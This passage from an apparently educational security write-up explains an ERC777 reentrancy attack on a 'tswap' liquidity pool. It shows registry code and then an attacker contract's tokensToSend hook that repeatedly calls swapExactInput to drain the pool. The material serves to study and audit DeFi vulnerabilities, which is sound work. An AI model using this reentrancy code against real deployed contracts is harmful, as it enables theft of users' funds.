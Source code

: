 ```javascript
 function getInterfaceImplementer(address _addr, bytes32 _interfaceHash) external view returns (address) {
        address addr = _addr == address(0) ? msg.sender : _addr;
        if (isERC165Interface(_interfaceHash)) {
            bytes4 erc165InterfaceHash = bytes4(_interfaceHash);
            return implementsERC165Interface(addr, erc165InterfaceHash) ? addr : address(0);
        }
        return interfaces[addr][_interfaceHash];
    }

```

With this check, only addresses registered to implement the IERC777Sender interface will be able to call tokenstosend which is what we want. Now you understand how ERC777 works for the most part. Lets look at how I used this token to break the invariant and drain funds from the tswap pool. I got motivation for this from the following links:

https://github.com/Consensys/Uniswap-audit-report-2018-12#32-frontrunners-can-skim-25-from-every-transaction-30
https://github.com/OpenZeppelin/exploit-uniswap/blob/master/README.md

The way the attack works is explained in point 3.1 of the first link. The idea is simple. In the tswappool contract, when a swap is being made, the contract calls transferfrom on the input token in order to take an amount of the token from another address. I am sure you can see where this is going. So our entry point is that transferfrom function because when the call is made on our erc777 with attacker.sol as the from address, it will trigger our tokenstosend function which will allow us reenter the contract easily. Lets see what I defined in the tokenstosend function:

```javascript
// ERC777 hook
    function tokensToSend(
        address,
        address,
        address,
        uint256,
        bytes calldata,
        bytes calldata
    ) external {
        require(
            msg.sender == address(_outputtoken),
            "Hook can only be called by the token"
        );
        _called++;
        console.log("Reentrant call number: ", _called);
        if (_called < _numberOfSales) {
            _callExchange();
        }
    }

    function _callExchange() private {
        _victimExchange.swapExactInput(
            _outputtoken,
            tokentosell,
            _wethtoken,
            minoutputAmount,
            uint64(block.timestamp) // deadline
        );
    }
```
